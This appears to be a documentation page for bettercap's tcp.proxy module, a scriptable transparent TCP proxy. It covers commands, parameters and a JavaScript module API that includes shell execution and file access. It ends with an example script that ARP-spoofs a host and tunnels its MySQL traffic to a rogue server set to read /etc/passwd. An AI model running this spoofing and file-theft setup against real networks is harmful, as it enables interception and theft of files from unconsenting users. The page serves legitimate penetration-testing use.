 ```yaml
---
title: tcp.proxy
description: A TCP transparent proxy that can be scripted using JavaScript modules.
---
```


A TCP transparent proxy that can be scripted using JavaScript modules. If used together with a [spoofer](/modules/ethernet/spoofers/introduction/), all TCP traffic to a given address and port will be redirected to it and it will automatically handle port redirections as needed.

The optional `tcp.tunnel` parameter can be used to redirect the traffic from `tcp.address` to `tcp.tunnel.address`.

### Commands

#### `tcp.proxy on`

Start the TCP proxy.

#### `tcp.proxy off`

Stop the TCP proxy.

### Parameters

| Parameter            | Default               | Description                                       |
| -------------------- | --------------------- | ------------------------------------------------- |
| `tcp.address`        |                       | **Mandatory** remote address of the TCP proxy.    |
| `tcp.port`           | `443`                 | TCP port to redirect when the proxy is activated. |
| `tcp.proxy.address`  | `<interface address>` | Address to bind the TCP proxy to.                 |
| `tcp.proxy.port`     | `8443`                | Port to bind the TCP proxy to.                    |
| `tcp.proxy.script`   |                       | Path of a proxy module script.                    |
| `tcp.tunnel.address` |                       | Address to redirect the TCP tunnel to (optional). |
| `tcp.tunnel.port`    |                       | Port to redirect the TCP tunnel to (optional)     |

### Modules

The `tcp.proxy` module can be scripted using javascript files that must declare at least one of the following functions:

```js
// called when the script is loaded
function onLoad() {
  // ...
}

// called when data is available
// from: String, to: String, data: ByteArray
// return: ByteArray|int[]
function onData(from, to, data) {
  log(data) // 104 101 108 108 111
  log(String.fromCharCode.apply(null, data)) // "hello"
  // modify 1 byte of data
  data[0] = "a".charCodeAt()
  return data

  // return new array of int, only on bettercap >= 2.41.2
  new_payload = "world"
  function charToInt(value) { return value.charCodeAt() }
  new_data = new_payload.split("").map(charToInt) // [119,111,114,108,100]
  return new_data
}
```

Modules can change the `data` buffer and return it, signaling the proxy to override the original buffer.

### Builtin Functions

The JS interpreter is [limited to ES5](https://github.com/robertkrimen/otto?tab=readme-ov-file#caveat-emptor) (no for/of, typed arrays, classes... )

Modules can use the following builtin functions.

| Function                                    | Description                                                                   |
| ------------------------------------------- | ----------------------------------------------------------------------------- |
| `readDir("/path/")`                         | Return the contents of a directory as a string array.                         |
| `readFile("/path/to/file")`                 | Return the contents of a file as a string.                                    |
| `writeFile("/path/to/file", "hello world")` | Write the string `hello world` to a file, returns `null` or an error message. |
| `log_debug("message")`                      | Log a message in the interactive session (its level will be `DEBUG`).         |
| `log_info("message")`                       | Log a message in the interactive session (its level will be `INFO`).          |
| `log_warn("message")`                       | Log a message in the interactive session (its level will be `WARNING`).       |
| `log_error("message")`                      | Log a message in the interactive session (its level will be `ERROR`).         |
| `log_fatal("message")`                      | Log a message in the interactive session (its level will be `FATAL`).         |
| `log("message")`                            | Shortcut for `log_info("message")`.                                           |
| `btoa("message")`                           | Encode a message to base64.                                                   |
| `atob("bWVzc2FnZQ==")`                      | Decode a message from base64.                                                 |
| `gzipCompress("plaintext data")`            | Compress a string using gzip encoding.                                        |
| `gzipDecompress(")9�\+�I��+I�(QHI,I����")`  | Decompress a gzip encoded string.                                             |
| `env("iface.ipv4")`                         | Read a variable.                                                              |
| `env("foo", "bar")`                         | Set a variable.                                                               |
| `run("command")`                            | Execute a shell command and return the output as a string.                    |
| `fileExists("/path/to/file")`               | Return `true` if the file exists, otherwise `false`.                          |
| `loadJSON("/path/to/file.json")`            | Load and parse a JSON file, returns a JS object.                              |
| `saveJSON("/path/to/file.json", object)`    | Serialize and save a JS object as JSON to the specified file.                 |
| `saveToFile("/path.txt", "data")`           | Save raw string data to a file.                                               |
| `onEvent("event.tag", callback)`            | Register a JS callback for the given session event tag.                       |
| `removeEventListener("event.tag")`          | Remove a previously registered event listener for the given tag.              |
| `addSessionEvent("tag", data)`              | Trigger a session event from within the script with a custom tag and payload. |

### Examples

The [rogue-mysql-server.cap](https://github.com/bettercap/caplets/blob/master/rogue-mysql-server.cap) executes an ARP spoofing attack against a single host and redirect the MySQL traffic to a [builtin rogue server](/modules/ethernet/servers/mysqlserver/):

```bash
# set the target for arp spoofing
set arp.spoof.targets 192.168.1.236

# bind rogue mysql server to localhost and
# set the file we want to read
set mysql.server.address 127.0.0.1
set mysql.server.port 3306
set mysql.server.infile /etc/passwd
mysql.server on

# set the ip from the mysql server we want to impersonate
set tcp.address 93.184.216.34
set tcp.port 3306

# set the ip from the rogue mysql server
set tcp.tunnel.address 127.0.0.1
set tcp.tunnel.port 3306

# go ^_^
tcp.proxy on
arp.spoof on
```
